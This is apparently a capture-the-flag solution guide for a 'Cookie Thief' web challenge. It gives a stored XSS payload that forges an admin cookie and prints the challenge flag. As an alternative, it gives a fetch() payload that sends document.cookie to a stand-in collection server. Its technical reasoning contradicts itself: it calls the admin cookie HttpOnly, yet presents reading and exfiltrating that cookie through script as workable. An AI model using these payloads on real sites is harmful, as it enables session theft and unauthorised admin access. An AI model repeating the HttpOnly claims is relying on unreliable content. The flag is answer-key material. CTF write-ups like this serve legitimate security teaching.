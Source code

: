 # Solution Guide: Cookie Thief Challenge

This document provides the solution method for the "Cookie Thief" web challenge.

## Challenge Summary
The challenge involves exploiting an XSS vulnerability to steal an admin cookie, which is otherwise protected with the HttpOnly flag.

## Solution Steps

### Step 1: Explore the Application
1. Visit the login page at http://[challenge-url]/
2. Login with the credentials provided in the hint: username `user` and password `password`
3. After logging in, you'll be redirected to a dashboard where you can post messages

### Step 2: Identify the Vulnerability
The message board does not sanitize user input, making it vulnerable to Cross-Site Scripting (XSS) attacks. When you post a message, it is displayed exactly as submitted, including any HTML or JavaScript code.

### Step 3: Exploit the XSS Vulnerability
Post a JavaScript payload that will set your own admin cookie before the HttpOnly cookie is set:

```html
<script>
  document.cookie = 'admin=true; path=/';
  alert('Admin cookie set!');
</script>
```

When this script executes, it will:
1. Create an admin cookie with the value 'true'
2. Display an alert confirming the action

### Step 4: Access the Admin Panel
After the script executes and sets the admin cookie, navigate to:
```
http://[challenge-url]/admin_panel.php
```

Since you now have an admin cookie set (admin=true), you'll be granted access to the admin panel where the flag is displayed:

```
flag{c00k13_th3ft_1s_t00_3asy}
```

## Alternative Approach: Cookie Stealing
You could also set up a server to receive the stolen cookie:

1. Create a server that logs incoming requests (or use a service like RequestBin)
2. Post this XSS payload:
```html
<script>
  fetch('https://your-server.com/steal?cookie=' + document.cookie);
</script>
```
3. Check your server logs for the cookies

## Security Concepts Demonstrated
This challenge demonstrates:
1. **Cross-Site Scripting (XSS)**: The ability to inject and execute arbitrary JavaScript in a vulnerable web page
2. **The HttpOnly flag**: While the admin cookie has the HttpOnly flag (preventing JavaScript from reading it directly), we can bypass this protection by creating our own cookie
3. **Input Sanitization**: Proper input sanitization (e.g., using `htmlspecialchars()`) would have prevented this vulnerability 